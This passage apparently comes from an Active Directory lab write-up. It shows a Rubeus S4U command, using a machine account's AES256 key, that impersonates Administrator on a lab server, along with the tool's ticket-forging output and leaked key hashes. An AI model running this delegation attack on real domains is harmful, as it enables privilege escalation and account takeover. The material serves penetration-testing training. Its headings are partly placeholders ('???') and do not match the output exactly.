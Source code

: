 ```
           rc4_hmac_nt_exp   e5c5fa4934a2a058fb61bf3a143d4050
           rc4_hmac_old_exp  e5c5fa4934a2a058fb61bf3a143d4050

[SNIP]
```

- **Forge an S4U TGS using the Student Machine TGS Encryption Key Hash for Privilege Escalation**
  ???

- **Forge an S4U TGS using the Target Server TGS Encryption Key Hash for the Delegated Service and Leverage it to Obtain an Alternate TGS for the LDAP Service**

![Run as administrator](learning_objectives_run_as_administrator.png)

![studvm | studentuser](https://custom-icon-badges.demolab.com/badge/studvm-studentuser-64b5f6?logo=windows11&logoColor=white)

`C:\AD\Tools\Loader.exe -path C:\AD\Tools\Rubeus.exe -args s4u /user:studvm$ /aes256:7f2a3239887475600fcc8595732fa9fd9756a3042254baba6c7600560a1c5eb6 /impersonateuser:Administrator /msdsspn:CIFS/mgmtsrv.tech.finance.corp /altservice:http /ptt`:
```
[SNIP]

[*] Action: S4U📌

[*] Using aes256_cts_hmac_sha1 hash: 7f2a3239887475600fcc8595732fa9fd9756a3042254baba6c7600560a1c5eb6
[*] Building AS-REQ (w/ preauth) for: 'tech.finance.corp\studvm$'
[*] Using domain controller: 172.16.4.1:88
[+] TGT request successful!📌
[*] base64(ticket.kirbi):

[SNIP]

[*] Action: S4U📌

[*] Building S4U2self request for: 'studvm$@TECH.FINANCE.CORP'
[*] Using domain controller: tech-dc.tech.finance.corp (172.16.4.1)
[*] Sending S4U2self request to 172.16.4.1:88
[+] S4U2self success!
[*] Got a TGS for 'Administrator'🎭 to 'studvm$🖥️@TECH.FINANCE.CORP'🏛️
[*] base64(ticket.kirbi):

[SNIP]

[*] Impersonating user 'Administrator'🎭 to target SPN 'CIFS📌/mgmtsrv🖥️.tech.finance.corp'
[*]   Final ticket will be for the alternate service 'ldap'
[*] Building S4U2proxy request for service: 'CIFS/mgmtsrv.tech.finance.corp'
[*] Using domain controller: tech-dc.tech.finance.corp (172.16.4.1)
[*] Sending S4U2proxy request to domain controller 172.16.4.1:88
[+] S4U2proxy success!
[*] Substituting alternative service name 'http'📌
[*] base64(ticket.kirbi) for SPN 'http📌/mgmtsrv🖥️.tech.finance.corp':

[SNIP]

[+] Ticket successfully imported!🎟️
```
